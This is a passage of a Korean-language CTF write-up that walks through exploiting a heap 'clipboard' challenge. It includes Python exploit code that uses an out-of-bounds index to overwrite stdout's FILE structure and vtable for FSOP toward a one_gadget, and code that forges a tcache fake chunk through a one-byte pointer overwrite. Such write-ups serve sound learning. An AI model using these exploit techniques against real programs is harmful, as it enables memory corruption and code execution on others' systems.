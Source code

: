 ``` python
    payload = bytearray(stdout_fp)
    payload[0:8] = p64(0)                       # stdout -> flags
    payload[0xa0:0xa8] = p64(wide_data)         # stdout -> _wide_data
    payload[0xc0:0xc8] = p64(1)                 # stdout -> mode
    payload[0xd8:0xe0] = p64(io_wfile_jumps)    # stdout -> vtable
    add_clipboard(s, -4, 0x100, payload, fin=1)
```
어... 신나게 설명했는데 사실 가장 큰 문제가 하나 있다.

OOB 취약점을 이용하여 `chunk_list[-4]`에 위치한 `stdout`을 overwrite하면 메모리는 다음 이미지와 같다.

![overwrite stdout](https://github.com/user-attachments/assets/516ba80e-e929-4134-8286-90478be22a81)

그런데 사실 `_IO_flush_all_lockp`는 `_IO_list_all`을 순회하며 file stream에 overflow가 발생했는지 확인하기 때문에, 공격자가 할당한 `wide_vtable`의 `one_gadget` 함수가 호출되기 위해서는 메모리가 다음 이미지와 같아져야 한다.

![overwrite stdout and unlink _IO_list_all](https://github.com/user-attachments/assets/3d1e80f6-522d-4118-bc39-b87ff0a4e7df)

따라서 libc 영역에 있는 `_IO_list_all` 포인터를 overwrite 해야한다...

`stdout`에 저장된 값을 직접 접근하는 다른 FSOP 시나리오를 찾았다면 이런 짓은 하지 않았어도 됐는데 아쉬울 따름이다...

### tcache unlink
아예 새로운 문제를 보는 기분으로 코드를 보다보면 `DelClipboard()`에서 다음 동작을 수행하는 것을 확인할 수 있다.
``` c
int DelClipboard()
{
  ...
      ptr = chunk_list_4040[index];
      if ( ptr )
      {
        free(ptr);
        chunk_list_4040[index] = 0LL;
        check_chunk_list_4090[index] = 0;
        size = chunk_size_list_40A0;
        chunk_size_list_40A0[index] = 0;
      }
  ...
}
```
`AddClipboard()`에서 `1`로 설정된 `check_chunk_list[index]`의 값을 `0`으로 돌려준다.

`check_chunk_list` 위에는 `malloc()`으로 할당받은 heap 영역의 주소들이 쓰여있을 것이고 `malloc()`, `free()`를 하는 순서가 같으면 offset도 동일할 것이므로 할당받은 주소를 leak하지 않더라도 예측할 수 있다.

따라서 `malloc`이 `0xXXXXXXXXXX10` 주소를 반환하게끔 heap을 정렬시켜두고, `0xXXXXXXXXXX00` 주소에 fake chunk header를 만들어준 다음, 주소의 마지막 바이트인 `0x10`을 `0x00`으로 만들어주면 fake chunk를 `free()`시킬 수 있다.
``` python
    # align last byte
    add_clipboard(s, -8, 0xc0, b"C" * 0x20)

    # make fake chunk header
    payload = b"D" * 0x10
    payload += p64(0)
    payload += p64(0x101)
    add_clipboard(s, 0, 0x20, payload)

    # allocate XXXXXXXXX410, XXXXXXXXX440, XXXXXXXXX470 chunks
    add_clipboard(s, 9, 0x20, b"E" * 0x30)
    add_clipboard(s, 1, 0x20, b"F" * 0x20)
    add_clipboard(s, 2, 0x20, b"G" * 0x20)

    # overwrite 410 -> 400 and free fake chunk (size 0x100)
    del_clipboard(s, -8)
    del_clipboard(s, 9)

```
